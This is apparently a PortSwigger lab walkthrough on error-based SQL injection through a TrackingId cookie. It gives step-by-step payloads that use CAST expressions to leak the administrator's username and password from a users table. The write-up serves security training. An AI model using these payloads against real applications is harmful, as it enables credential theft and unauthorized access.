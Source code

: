 ## Lab Description
![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/63ea4352-fbc8-443b-a55f-98dd56740f29)

### Solution

  - When clicking on any catgory in products filter, browser sends a GET request with a tracking cookie & a session cookie.
  - Let's try to input a special character `'` in the TrackingID parameter since it is vulnerable as per lab description to try and induce an SQL error.
 
`Cookie: TrackingId=e00R0OKbtGq3H944';`

![1](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/dad37520-ff1c-4a6b-b291-c4d7e80993bc)

  -  add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:

`TrackingId=ogAZZfxtOKUELbuJ'--`

![2](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/a3e4f470-6107-4798-9f4e-68faee77843a)

  - Since we know what query is being made, now we can craft our payload using CAST conditional expresiions.
  - Now we give a generic SELECT query & CAST the returned value to int datatype.

![3](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/9696619d-11f8-4212-a972-3f9225799191)

  - It says that AND condition must be a boolean expression.
  - Modify the condition accordingly. For example, you can simply add a comparison operator (=) as follows:

`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`

![4](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/c182248e-b7c2-4aea-b9a1-afe2d461aa8e)

  - The condition got TRUE and it returned all the category items with a 200 OK status code.
  - Now modify the SELECT query to retreive username from the database.

`' AND 1=CAST((SELECT username FROM users) AS int)--`

![5](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/a9ca7835-b3b0-45d0-9589-8c477c6b6be1)

  - The query is being truncated here. So lets either remove some or all of trackingID cookie value to free up some space.
  - Modify the query to return only one row:

`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`

![8](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/0fe0c72a-77f2-49fb-a1fb-e881ed3994b7)

  - Now that we know that *administrator* is the first user in the users table , let's retreive his password.
  -  modify the query once again to leak their password:

`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

![9](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/9bd917e4-fbeb-4fbc-91bf-47d58179eeea)

  - Now login as admin in the shopping website to solve the lab.
  
![10](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/8489e408-4c49-476c-ac70-a5a6b0205715)


